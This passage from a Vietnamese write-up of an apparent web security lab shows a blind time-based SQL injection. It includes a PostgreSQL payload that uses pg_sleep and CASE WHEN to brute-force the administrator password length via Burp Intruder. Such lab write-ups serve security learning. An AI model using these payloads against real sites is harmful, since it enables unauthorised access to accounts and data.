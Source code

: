 Đổi điều kiện `1=1` thành `1=2` trong payload thì em thấy response luôn:

![lab-15-1](images/lab-15/lab-15-1.png)

Tiếp theo, em sử dụng payload `' || (SELECT CASE WHEN (username='administrator' AND LENGTH(password)=§1§) THEN pg_sleep(2) ELSE pg_sleep(0) END FROM users)--` để thực hiện brute-force độ dài của password sử dụng Burp Intruder:

![lab-15-2](images/lab-15/lab-15-2.png)

Em xác định được độ dài của password là 20:

![lab-15-3](images/lab-15/lab-15-3.png)

